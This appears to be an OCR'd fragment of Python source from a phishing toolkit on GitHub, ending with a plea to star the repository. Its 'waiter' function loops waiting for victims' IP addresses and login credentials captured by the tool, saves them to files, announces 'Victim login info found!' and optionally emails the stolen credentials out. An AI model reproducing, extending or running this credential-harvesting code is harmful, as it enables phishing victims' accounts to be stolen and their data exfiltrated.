 # Last function capturing credentials
def waiter():
    global is_mail_ok
    delete(ip_file, cred_file)
    sprint(f"\n{info}{blue}Waiting for login info....{cyan}Press {red}Ctrl+C{cyan} to exit")
    try:
        while True:
            if isfile(ip_file):
                print(f"\n\n{success}{bgreen}Victim IP found!\n\007")
                show_file_data(ip_file)
                ipdata = cat(ip_file)
                append(ipdata, main_ip)
                # Just add the ip
                append(ipdata.split("\n")[0], saved_file)
                print(f"\n{info2}Saved in {main_ip}")
                print(f"\n{info}{blue}Waiting for next.....{cyan}Press {red}Ctrl+C{cyan} to exit")
                remove(ip_file)
            if isfile(cred_file):
                print(f"\n\n{success}{bgreen}Victim login info found!\n\007")
                show_file_data(cred_file)
                userdata = cat(cred_file)
                if is_mail_ok:
                    send_mail(userdata)
                append(userdata, main_cred)
                append(userdata, saved_file)
                print(f"\n{info2}Saved in {main_cred}")
                print(f"\n{info}{blue}Waiting for next.....{cyan}Press {red}Ctrl+C{cyan} to exit")
                remove(cred_file)
            sleep(0.75)
    except KeyboardInterrupt:
        pexit()

if __name__ == '__main__':
    try:
        main_menu()
    except KeyboardInterrupt:
        pexit()
    except Exception as e:
        exception_handler(e)
            
# If this code helped you, consider staring repository. Your stars encourage me a lot!
